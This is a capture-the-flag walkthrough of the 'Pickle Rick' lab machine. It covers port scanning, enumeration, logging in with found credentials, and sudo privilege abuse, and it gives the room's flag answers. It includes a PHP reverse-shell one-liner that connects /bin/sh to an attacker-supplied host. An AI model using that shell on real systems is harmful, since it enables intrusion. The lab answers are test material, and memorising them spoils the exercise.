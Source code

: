 # Pickle Rick

**Target IP : 10.10.152.72**

- Username: "R1ckRul3s" (page source)

#### Nmap Scanning
Open Ports
- 22 : OpenSSH
- 80 : Apache/2.4.18 (Webserver)

Nmap result : [here](./intitial-scan.txt)

#### Enumeration
we found robots.txt,
- Looking this file we think, *password* might be : "Wubbalubbadubdub"
- Found "/login.php" page from nikto output
![](./screenshots/nikto.png)

Enumeration result : [here](./enum-initial.txt)

#### Flags

Using above credentials, login to "10.10.152.72/login.php"
- execute ls command to list files (or we can have a reverse shell setup using
	```php
	php -r '$sock=fsockopen("<attacking-machine IP>",<port>);$proc=proc_open("/bin/sh -i", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);'

	```
	)

- Concatenate Sup3rS3cretPickl3Ingred.txt file using<br>
	```bash
	less Sup3rS3cretPickl3Ingred.txt

	```
	**First Ingredient : "mr. meeseek hair"**

- Concatenate clue.txt file for further details of other ingredients.

- From clue.txt, we start searching other ingredients and found one in "/home/rick/second\ ingredients"<br>
	**Second Ingredient : "1 jerry tear"**

let's check do we need password to run sudo command using

```bash
sudo -l

```

we get,
![](./screenshots/no_pass.png)

From this line ("(ALL) NOPASSWD: ALL)") we are sure that we can run any command with sudo without having password.

- list content of root directory using,
	```bash
	sudo ls /root

	```

we get,
![](./screenshots/sudo_ls.png)

- Concatenate 3rd.txt.<br>
	**Third Ingredient : "fleeb juice"**
